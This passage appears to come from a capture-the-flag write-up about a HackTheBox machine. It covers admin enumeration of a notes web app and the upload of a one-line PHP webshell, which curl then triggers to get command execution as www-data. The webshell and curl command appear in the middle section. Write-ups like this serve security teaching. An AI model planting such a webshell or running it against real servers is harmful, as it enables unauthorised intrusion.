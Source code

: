![image-20210721204644223](https://0xdfimages.gitlab.io/img/image-20210721204644223.png)

In fact, the link to the Admin Panel has been added at the nav bar.

Interestingly, in the Notes link, it still shows the single note associated
with my UUID. But the link in Admin Panel –> View Notes goes to
`/admin/viewnotes`, where I see all the notes on the server:

![image-20210721204830563](https://0xdfimages.gitlab.io/img/image-20210721204830563.png)

### Enumeration as Admin

There are two hints in the notes from the admin:

  * PHP files are being executed (despite this server clearly not being PHP).
  * The server has regular backups scheduled.

The more interesting link is the Upload File link, which leads to a form:

![image-20210721205056448](https://0xdfimages.gitlab.io/img/image-20210721205056448.png)

I first tried to upload a plain text file, `test.txt`:

![image-20210726115027912](https://0xdfimages.gitlab.io/img/image-20210726115027912.png)

It changes the filename, but not the extension. However, the View link is
broken, as it returns 404. That’s really odd.

### Webshell Execution

Because the note said that PHP files were being executed, I’ll upload a simple
PHP webshell:

    
    
    <?php system($_REQUEST["cmd"]); ?>
    

It shows up with a long hex filename, but with the same extension:

![image-20210721210609334](https://0xdfimages.gitlab.io/img/image-20210721210609334.png)

With `.php`, the View link does work, and if i add `?cmd=id` to the end, it
show I have execution:

![image-20210721210648992](https://0xdfimages.gitlab.io/img/image-20210721210648992.png)

I’ll look at what’s going on with the webserver in Beyond Root.

I like to use `curl` to trigger web shells and that works too:

    
    
    oxdf@parrot$ curl --data-urlencode 'cmd=id' -G -s http://10.10.10.230/a1ba6293840f8a8fb4d5dda74c98c90a.php
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Shell
